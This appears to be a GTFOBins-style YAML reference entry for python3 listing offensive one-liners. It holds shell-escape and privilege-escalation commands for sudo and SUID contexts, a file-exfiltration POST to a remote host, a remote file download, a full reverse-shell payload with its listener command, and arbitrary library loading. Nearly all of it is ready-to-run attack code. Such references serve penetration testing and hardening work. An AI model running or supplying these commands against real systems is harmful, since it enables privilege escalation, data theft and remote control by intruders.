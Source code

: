 ```yaml
---
functions:
  exec-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service to collect the file on the other end.
      code: |
        export URL=http://10.0.0.1/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://10.0.0.1/file_to_get
        export LFILE=file_to_get
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  reverse-shell:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:8000</code> to receive the shell on the other end.
      code: |
        export RHOST=127.0.0.1
        export RPORT=8000
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

